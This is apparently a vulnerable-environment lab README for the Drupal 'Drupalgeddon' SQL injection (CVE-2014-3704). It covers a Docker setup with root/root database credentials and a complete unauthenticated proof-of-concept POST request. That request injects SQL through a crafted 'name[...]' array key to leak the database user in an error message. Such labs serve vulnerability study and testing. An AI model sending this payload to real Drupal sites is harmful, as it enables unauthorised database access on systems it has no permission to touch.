



Drupal < 7.32 "Drupalgeddon" SQL Injection (CVE-2014-3704)¶
Drupal is a free and open-source web content management framework written in PHP and distributed under the GNU General Public License.
The expandArguments function in the database abstraction API in Drupal core 7.x before 7.32 does not properly construct prepared statements, which allows remote attackers to conduct SQL injection attacks via an array containing crafted keys.
References:
- https://www.drupal.org/SA-CORE-2014-005
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3704
Vulnerable Environment¶
Execute the following command to start a Drupal 7.31.
docker compose up -d
After the server is started, browse http://your-ip:8080 to see the Drupal installation wizard, and use the default configuration to install it.
Note that the Mysql database name is drupal, the database username and password is root, and the address is mysql:

After the installation is complete, browse the home page.

POC¶
The SQL injection does not require authentication and can execute malicious SQL statements by sending the following request.
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120
pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
As can be seen, the SQL statement reports an error message with user data.
